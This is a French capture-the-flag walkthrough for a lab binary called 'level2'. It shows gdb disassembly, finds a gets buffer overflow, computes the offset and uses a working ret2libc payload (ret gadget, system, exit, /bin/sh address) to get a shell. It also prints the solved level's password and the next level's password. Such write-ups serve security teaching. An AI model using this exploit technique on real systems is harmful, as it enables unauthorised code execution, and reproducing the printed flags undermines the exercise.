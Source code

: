 # LEVEL 2

On se connecte sur le level2, ou se trouve un **binaire** <code>level2</code>.

On cherche a savoir ce que fait ce binaire:
```gdb
> gdb level2 -q
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
End of assembler dump.
> disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
End of assembler dump.
```

En traduisant le programme (dans **source.c**) on se rend compte de l'utilisation de la fonction **gets** (vulnerable) mais aussi d' une restriction sur l'adresse de retour sur la stack:
<pre><code>if (0xb0000000 == (address & 0xb0000000))
</code></pre>
ou
```gdb
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
```

Nous allons donc faire un **buffer overflow** avec **rettolibc**, et nous allons utliser un **RET** afin de bypasser la restriction.

On calcul l'**offset** qui va nous permettre de faire le **buffer overflow**:
```gdb
> gdb -q level2
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) > b *p+30 # Adresse juste apres le gets
(gdb) > run
Starting program: /home/user/level2/level2
AAAAAAAAAAAAA

Breakpoint 1, 0x080484f2 in p ()
> (gdb) x/10x $eax
0xbffff6bc:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff6cc:     0xb7fd0f00      0x08048550      0x08049828      0x00000001
0xbffff6dc:     0x08048381      0xb7fd13e4

> (gdb) i f
Stack level 0, frame at 0xbffff710:
 eip = 0x80484f2 in p; saved eip 0x804854a
 called by frame at 0xbffff720
 Arglist at 0xbffff708, args:
 Locals at 0xbffff708, Previous frame's sp is 0xbffff710
 Saved registers:
  ebp at 0xbffff708, eip at 0xbffff70c

> (gdb) p 0xbffff70c - 0xbffff6bc
$1 = 80

> p *system
$3 = {<text variable, no debug info>} 0xb7e6b060 <system>
```
> OFFSET : 80
> SYSTEM: <code>0xb7e6b060</code>
> RET: <code>0x0804853e</code>
> EXIT: <code>0xb7e5ebe0</code>



Pour récupéré l'adresse de /bin/sh, on écrit un petit programme en C dans /tmp.

```bash
> touch /tmp/getsh.c
> echo "#include <stdio.h>
#include <stdlib.h>
int main(){ printf(\"SHELL= %p\n\", getenv(\"SHELL\")); return 0; }" > /tmp/getsh.c
> cd /tmp
> gcc getsh.c
> ./a.out
SHELL= 0xbffff945
```

On change l'environement du shell pour passer sur **/bin/sh** car **bash** garde les privilèges de l'utilisateur qui l'invoque.
On execute ensuite le programme avec notre buffer overflow suivi d'une addresse de ret, d'une addresse système, de l'addresse d'un exit et de l'addresse du **/bin/sh**.
Si l'addresse est légèrement décaler (in/sh par exemple), il suffit de modifier légèrement l'addresse pour obtenir **/bin/sh**.

```bash
> SHELL=/bin/sh
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x45\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`E
sh: 1: in/sh: Permission denied
^C`
level2@RainFall:~$ (python -c "print 'A' * 80 + '\x3e\x85\x04\x08' + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7'+ '\x43\xf9\xff\xbf'"; cat) | ./level2
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA>AAAAAAAAAAAA>`C`
cd ../level3 && cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

For download :
<pre><code>scp -P4242 level2@IP:level2 .</code></pre>
> Password : 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
